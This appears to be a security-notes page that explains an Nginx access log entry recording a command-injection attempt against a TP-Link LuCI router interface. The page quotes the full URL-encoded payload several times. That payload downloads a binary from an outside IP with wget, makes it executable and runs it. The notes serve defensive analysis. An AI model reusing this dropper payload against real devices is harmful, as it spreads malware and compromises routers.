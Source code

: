 # Nginx security notes

## Malicious attempt description
The output you've provided appears to be an entry from a web server access log. Let's break down what each part of this log entry represents:

- **`webserver`**: This is the identifier for the service or container that generated the log entry.
- **`183.81.169.139`**: This is the IP address of the client that made the HTTP request.
- **`- -`**: These hyphens typically represent placeholders for the remote user identity and authenticated user identity, which may not be available or relevant in this context.
- **`[10/May/2024:06:44:22 +0000]`**: This is the timestamp indicating when the request was made, in the format `[day/month/year:hour:minute:second timezone]`.
- **`"GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60) HTTP/1.1"`**: This part represents the HTTP request made by the client. It includes:
  - **`GET`**: The HTTP method used (`GET` in this case).
  - **`/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)`**: The requested URI, which appears to contain a malicious command injection attempt (`$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)`). This attempt tries to execute arbitrary commands on the server.
  - **`HTTP/1.1`**: The HTTP protocol version used for the request.
- **`200`**: The HTTP status code returned by the server in response to this request (`200` indicates a successful response).
- **`1312`**: The size of the response in bytes.
- **`"-" "Go-http-client/1.1" "-"`**: Additional details about the request, including the user agent (`Go-http-client/1.1`), which indicates that the request was made by a Go HTTP client.

This log entry suggests that a client (with the IP address `183.81.169.139`) attempted to exploit a vulnerability by injecting a malicious command into a URI path (`/cgi-bin/luci/;stok=/locale?...`). This kind of activity represents a serious security threat and indicates an attempt to compromise the server.

### Detailed explanation of the GET request

Let's break down and analyze the components of the provided GET request:

```
GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60) HTTP/1.1
```

1. **Request Method**: `GET`
   - This specifies that the client is attempting to retrieve data from the server using the HTTP `GET` method.

2. **Request URI**: `/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)`
   - The URI path begins with `/cgi-bin/luci/`, which suggests an attempt to access a Luci-based CGI script or interface.
   - The query string `;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F174.138.2.237%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk%60)` follows, containing parameters and values.
